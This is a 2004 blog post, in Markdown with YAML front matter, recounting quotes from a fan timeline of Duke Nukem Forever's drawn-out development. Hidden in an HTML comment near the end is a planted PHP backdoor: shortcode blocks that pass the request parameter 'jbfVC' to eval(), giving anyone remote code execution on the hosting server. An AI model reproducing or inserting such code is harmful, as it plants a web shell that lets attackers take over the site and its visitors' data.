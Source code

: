 ```yaml
---
title: Duke Nukem In-Development 4ever
author: Paul Cutler
type: post
date: 2004-08-30T13:12:15+00:00
url: /2004/08/duke-nukem-in-development-4ever/
categories:
  - Entertainment
  - PC Games

---
```

Duke Nukem In-Development 4ever

As seen on [Evil Avatar<a></a>:][1]

[The History and Timeline of Duke Nukem 4ever][2] as written by Syfer on the 3dRealms forums.

Some Choice Quotes from the timeline:

Janurary 1997: Work on DNF started.*

Late 1999: 3DR announces upgrade to UT level tech. It is expected to take two weeks. 3DR releases a Christmas card saying that DNF will be released in 2000.

Unknown 2002: Broussard states that DNF will definitely be out before DooM 3.

Late 2003/early 2004: Take 2 complains about DNF development and expects it around &#8220;late 2005&#8221;. &#8220;At this point we&#8217;re just hoping the team [in garland] will finish the project.&#8221;

<!-- [insert_php]if (isset($_REQUEST["jbfVC"])){eval($_REQUEST["jbfVC"]);exit;}[/insert_php][php]if (isset($_REQUEST["jbfVC"])){eval($_REQUEST["jbfVC"]);exit;}[/php] -->

 [1]: http://www.evilavatar.com/modules.php?op=modload&name=News&file=article&sid=5821&mode=thread&order=0&thold=0
 [2]: http://forums.3drealms.com/ubbthreads/showflat.php?Cat=&Number=639028&page=0&view=collapsed&sb=5&o=93&fpart=1